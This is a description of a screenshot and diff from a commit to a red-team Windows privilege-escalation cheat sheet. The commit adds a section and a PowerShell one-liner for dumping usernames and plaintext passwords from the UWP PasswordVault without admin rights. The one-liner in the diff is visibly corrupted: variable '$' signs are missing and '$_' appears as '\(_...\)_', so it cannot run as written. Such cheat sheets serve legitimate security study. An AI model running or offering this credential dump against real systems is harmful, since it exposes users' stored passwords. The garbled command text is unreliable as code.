

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/escalation/windows-privilege-escalation.md, in a window 1280 px wide and 1400 px high, scrolled down 17408 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
feat(windows lpe): add UWP PasswordVault credential locker method
Adds a new section documenting the extraction of credentials from the modern Universal Windows Platform (UWP) PasswordVault / Credential Locker.

- Documents how modern Windows builds, Edge, and apps handle "Web Credentials".
- Provides a native PowerShell one-liner to securely decrypt and display plaintext passwords without requiring administrative or debug privileges.

````diff
--- a/docs/redteam/escalation/windows-privilege-escalation.md
+++ b/docs/redteam/escalation/windows-privilege-escalation.md
@@ -20,6 +20,7 @@
     * [Sticky Notes passwords](#sticky-notes-passwords)
     * [Passwords stored in services](#passwords-stored-in-services)
     * [Passwords stored in Key Manager](#passwords-stored-in-key-manager)
+    * [Passwords stored in UWP PasswordVault / Credential Locker](#passwords-stored-in-uwp-passwordvault--credential-locker)
     * [Powershell History](#powershell-history)
     * [Powershell Transcript](#powershell-transcript)
     * [Password in Alternate Data Stream](#password-in-alternate-data-stream)
@@ -538,6 +539,16 @@
 rundll32 keymgr,KRShowKeyMgr
 ```
 
+### Passwords stored in UWP PasswordVault / Credential Locker
+
+Modern Windows UWP applications, Microsoft Edge, and modern system services store authentication tokens and plaintext passwords inside the Universal Windows Platform (UWP) `PasswordVault` (also exposed as `Web Credentials` in `vaultcmd`). This storage space is session-isolated and can be decrypted natively without administrative or `SeDebugPrivilege` rights.
+
+Execute this PowerShell command inside the user's active session to instantly dump and decrypt all stored usernames and plaintext passwords:
+
+```ps1
+[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]; v = New-Object Windows.Security.Credentials.PasswordVault; v.RetrieveAll() | ForEach-Object { try { \(_.RetrievePassword();\)_ } catch{} } | Select-Object Resource, UserName, Password | Format-List
+```
+
 ### Powershell History
 
 Disable Powershell history: `Set-PSReadlineOption -HistorySaveStyle SaveNothing`.
````
